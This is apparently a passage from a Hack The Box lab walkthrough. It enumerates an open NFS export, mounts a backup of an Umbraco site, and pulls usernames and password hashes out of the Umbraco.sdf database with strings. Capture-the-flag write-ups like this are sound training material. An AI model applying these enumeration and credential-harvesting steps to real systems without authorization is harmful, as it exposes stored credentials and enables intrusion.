 Based on scanning result there's nothing I can do without valid credential.

### nfs(2049)

Let's check if there's any mount.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

Bingo! There's a `/site_backups` which is likely being useful!
Let's mount and see what's in it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sudo mkdir /mnt/nfs      
[sudo] password for kali: 


┌──(kali㉿kali)-[~/htb]
└─$ sudo mount -t nfs 10.10.10.180:/site_backups /mnt/nfs


┌──(kali㉿kali)-[/mnt/nfs]
└─$ ls
App_Browsers  Config       Umbraco         Web.config     css
App_Data      Global.asax  Umbraco_Client  aspnet_client  default.aspx
App_Plugins   Media        Views           bin            scripts
```

Yes, I think it contains web resource files.

# Login on `Umbraco` as `administrator`

It has a lot of files in it.. Among them, I found `Umbraco.sdf`.

```perl
┌──(kali㉿kali)-[/mnt/nfs/App_Data]
└─$ strings Umbraco.sdf 
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```
